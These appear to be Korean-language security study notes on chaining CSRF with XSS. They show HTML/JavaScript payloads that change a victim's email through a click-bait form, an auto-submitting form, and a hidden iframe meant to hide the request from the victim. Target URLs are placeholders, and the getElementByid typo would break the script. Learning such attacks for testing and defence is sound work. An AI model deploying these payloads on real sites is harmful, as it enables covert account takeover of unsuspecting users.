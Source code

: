 ```yaml
---
description: CSRF XSS 연계(form 태그 추가하면 됨)
---
```


# CSRF XSS 연계 공격 (+iframe)



### #버튼 클릭 유도

예시) 이메일 주소 바꾸기

```javascript
<h1>Click This!!</h1>

<form method="POST" action="URL넣기">
<input type="hidden" name="email" value="normal%40test.com"/>
<input type="submit" value="Click Me" />
</form>
```



***

### #전송 자동화

form 태그에 id 추가 후 submit 함수로 자동 전송

```javascript
<h1>Hello~~~!</h1>

<form method="POST" action="URL~~" id="myForm">
<input type="hidden" name="email" value="normal%40test.com"/>
<input type="submit" value="Click Me" />
</form>

<script>
document.getElementByid('myForm').submit();
</script>
```

비밀번호가 변경되었습니다. 🎈알림창 마이페이지로 이동

> 매우 수상함



***



### #요청을 iframe 안에서 실행되게끔 하기 (수상함을 덜기 위해서)

아이프레임 name 지정하고, 타겟을 통해서 진행.

```javascript
<h1>Hello~~~!</h1>

<iframe name="stealthFrame"></iframe>

<form method="POST" action="URL~~" id="myForm" target="stealthFrame">
<input type="hidden" name="email" value="normal%40test.com"/>
<input type="submit" value="Click Me" />
</form>

<script>
document.getElementByid('myForm').submit();
</script>
```



***

### #아예 안 보이게 끔 하기

```javascript
<h1>Hello~~~!</h1>

<iframe name="stealthFrame" style="display:none;"></iframe>

<form method="POST" action="URL~~" id="myForm" target="stealthFrame">
<input type="hidden" name="email" value="normal%40test.com"/>
<input type="submit" value="Click Me" />
</form>

<script>
document.getElementByid('myForm').submit();
</script>
```



